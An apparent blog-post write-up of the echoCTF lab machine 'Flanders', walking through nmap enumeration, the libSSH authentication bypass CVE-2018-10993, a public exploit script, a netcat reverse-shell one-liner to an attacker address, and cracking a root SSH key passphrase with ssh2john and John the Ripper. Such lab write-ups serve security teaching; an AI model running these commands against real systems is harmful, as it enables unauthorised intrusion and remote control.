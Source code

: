 ```yaml
---
layout: post
title: Flanders
feature-img: "assets/img/portfolio/flanders.png"
img: "assets/img/portfolio/flanders.png"
date: 11 Jun 2021
tags: [Lorem, Ipsum]
---
```



[Flanders](https://echoctf.red/target/13)


machine description:

Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is Okily Dokily

Catch phrase sounds like a pass phrase, only without space

---

### Enumartion


```
nmap -sC -sV -p- 10.0.40.0

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-10 20:10 EST
Nmap scan report for 10.0.100.34
Host is up (0.12s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION

6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
ssh-hostkey: 
2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

```

### vulnerability

CVE-2018-10993 libSSH authentication bypass exploit

The libSSH library has flawed authentication/connection state-machine.
Upon receiving from connecting client the MSG_USERAUTH_SUCCESS Message
(as described in RFC4252, sec. 5.1.) which is an authentication response message
that should be returned by the server itself (not accepted from client)
the libSSH switches to successful post-authentication state. In such state,
it impersonates connecting client as server's root user and begins executing
delivered commands. 
This results in opening an authenticated remote-access channel
without any authentication attempts (authentication bypass).


### Exploit 

from hint i understood it server side include.

[CVE-2018-10993](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)


```

python3 cve-2018-10993.py  10.0.100.34  -p 6022 -c 'whoami' 

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
ETSCTF
Socket exception: Bad file descriptor (9)


next i opend revershell 

python3 cve-2018-10993.py  10.0.40.0 -p 6022 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f'

$ whoami
ETSCTF
$ 




```

we logged in as user  ETSCTF




### Privilege escalation


```


ls -la
total 20
drwxr-xr-x 1 ETSCTF root     4096 May 18 07:11 .
drwxr-xr-x 1 ETSCTF www-data 4096 Nov 11  2019 ..
-rw-r--r-- 1 ETSCTF www-data  222 May 18 07:11 known_hosts
-rw------- 1 ETSCTF root     1766 Nov 11  2019 mykey
-rw------- 1 ETSCTF root      399 Nov 11  2019 mykey.pub

```

mykey is owned by root. 


next we can see thet machine is listen - 127.0.0.1:22 --- ssh port 
```


ssh -p 22 -i ~/.ssh/mykey root@127.0.0.1

and i got password for this key :(

there two options to solve this:

1. enumration  -- found the pass from clues in machine description (OkilyDokily)
2. ssh2john 


using ssh2john

python ~/tools/ssh2john.py key > new_key 

and then brutfouce the new_key

$ john new_key

```

